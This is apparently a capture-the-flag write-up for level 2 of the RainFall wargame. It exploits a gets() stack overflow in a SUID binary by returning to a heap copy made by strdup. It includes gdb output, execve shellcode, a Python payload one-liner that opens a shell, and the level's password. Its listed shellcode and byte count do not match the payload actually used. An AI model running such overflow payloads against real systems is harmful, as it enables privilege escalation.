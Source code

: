 # Level 2

## Vulnerability

Stack overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```

## Solution

After a certain length of input it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```

### Find EIP offset

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 80.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
This means we can write our malicious code in the stdin, followed by garbage until the buffer overflows and we reach 80 characters, where the return address can be overwritten.

### Find target address

However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

### Build exploit string

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious bytecode.
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

Lets create our exploit string:
1. Our malicious bytecode (21 bytes) - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```
2. Buffer until EIP offset at 80 bytes - ```"A" * 59```
3. Address of our malicious code, copied by strdup() to the heap - ```\x08\xa0\x04\x08```

Pipe the exploit string into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' ; cat -) | ./level2
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Recreate Exploited Binary

As user ```level3```, in /tmp/ create and compile ```level2_source.c```
```
level3@RainFall:/tmp$ gcc level2_source.c -fno-stack-protector -z execstack -o level2_source
```
Edit permissions including suid, then move the binary to home directory.
```
level3@RainFall:/tmp$ chmod u+s level2_source; chmod +wx ~; mv level2_source ~
```
Exit back to user level2, then run the binary.
```
level3@RainFall:/tmp$ exit
exit
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xb0\x04\x08"' ; cat -) | /home/user/level3/level2_source
...
whoami
level3
```
